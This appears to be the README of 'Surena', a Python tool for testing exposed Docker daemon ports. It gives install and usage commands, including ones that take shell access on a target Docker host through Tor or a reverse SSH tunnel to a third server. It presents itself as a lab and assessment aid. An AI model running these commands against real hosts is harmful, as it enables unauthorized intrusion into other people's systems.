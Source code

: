 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To understand more about how Surena works and how to use these methods, please refer to our Medium article: [article](https://medium.com/@norouzzadegan/69628c4be503). The name Surena is derived from a Parthian(Iranian) spahbed from the first century BC. For further information, you can visit the [Wikipedia](https://en.wikipedia.org/wiki/Surena) page on Surena.

## Installation

Surena can be installed from PyPI by running:

```bash
pip install surena
```

Once installed, Surena can be run using the following commands in your terminal. To view available commands and options, use:

```bash
surena --help
```

## Using
Surena offers two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command checks if the Docker daemon's port is accessible from the network. To understand its options, run:

```bash
surena is-docker-host --help
```

For example, execute the command with these options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that in the remote SSH server or in the `THIRD_SERVER_IP`, which has already been mentioned, the "GatewayPorts" configuration in the `sshd_config` file located at `/etc/ssh/sshd_config` should be changed from `GatewayPorts no` to either `GatewayPorts clientspecified` or `GatewayPorts yes` to enable it.

Additionally, ensure to replace `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` with the appropriate values.


## Warning
Surena is intended for lab use and to help you understand whether your Docker daemon is secure or insecure. **PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.**

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be grateful if you could consider supporting us by donating Dogecoin. Our Dogecoin wallet address for donations is: `DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA`
